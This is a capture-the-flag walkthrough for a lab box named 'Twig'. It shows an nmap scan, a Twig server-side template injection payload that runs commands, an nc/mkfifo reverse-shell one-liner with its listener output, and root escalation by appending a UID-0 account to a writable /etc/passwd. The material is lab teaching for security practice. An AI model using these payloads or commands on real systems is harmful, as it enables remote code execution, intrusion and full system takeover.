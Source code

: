 # Twig
Twig is a linux box that use Twig as a tempalte engine

# Recon
Start with nmap scan:
```
nmap -sC -sV 10.0.101.1
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-25 21:27 EDT
Nmap scan report for 10.0.101.1
Host is up (0.11s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: HackerENV - CTF Challenges

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.71 seconds
```
There is only one port open which is port **80**

If we browse to it we will see this:

![image1](https://github.com/electronicbots/HackerEnv/blob/main/Machines/twig/images/1.png)

And if we open the page source, we get this hint:

```html
...
</body>

<!-- do you know that TWIG is a tempalte engine -->

</html>
...
```

So that it is using a **twig** as a tempalte engine.

## User Flag
A simple google search will lead to this exploit: https://www.exploit-db.com/exploits/44102

```
2. POC:
http://localhost/search?search_key={{4*4}} 
OUTPUT: 4
```
So we can test it like this:

![image2](https://github.com/electronicbots/HackerEnv/blob/main/Machines/twig/images/2.png)

We can tell it is vulnerable. If you search for "twig template injection payload" you should find this PDF: https://www.blackhat.com/docs/us-15/materials/us-15-Kettle-Server-Side-Template-Injection-RCE-For-The-Modern-Web-App-wp.pdf

If you go to Twig section you will find a payload that you can use to inject a command, and it is this one:
```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
```

![image3](https://github.com/electronicbots/HackerEnv/blob/main/Machines/twig/images/3.png)

And we can now run some commands, let's get a reverse shell with this:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <your_ip> <port> >/tmp/f
```

Make sure you start a listener befor you run it:

```
kali@kali:/$ nc -nlvp 5555
listening on [any] 5555 ...                                                                                                                                                                                                                
connect to [10.10.0.102] from (UNKNOWN) [10.0.101.1] 35660                                                                                                                                                                                 
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Get the first flag:
```
www-data_flag:93f5b03...78fbec89
```

## Root Flag
If you run **linPEAS** script you will find that you have write access on **/etc/passwd**. we can confirm that with **ls**:
```
www-data@twig:/$ ls -lha /etc/passwd
ls -lha /etc/passwd
-rwxrwxrwx 1 root root 919 Oct 12 07:00 /etc/passwd
```

You can use any method to generate the password hash, I used perl just to test it out:
```
www-data@twig:/$ perl -le 'print crypt("pass123", "abc")'
perl -le 'print crypt("pass123", "abc")'
abBxjdJQWn8xw
```
now we just need to add this line at the end of **/etc/passwd**:
```
z0l:abBxjdJQWn8xw:0:0:/root/root:/bin/bash
```
```
www-data@twig:/$ echo "z0l:abBxjdJQWn8xw:0:0:/root/root:/bin/bash" >> /etc/passwd
<xjdJQWn8xw:0:0:/root/root:/bin/bash" >> /etc/passwd
```
You can now use **sudo su** to get a shell as **root**:
```
www-data@twig:/$ su z0l
su z0l
Password: pass123

# id
id
uid=0(root) gid=0(root) groups=0(root)
```
Get the root flag:
```
root_flag:7e4c330...c52ccd0f
```

Thanks for reading and you can find me here on Twitter: https://twitter.com/electronicbots
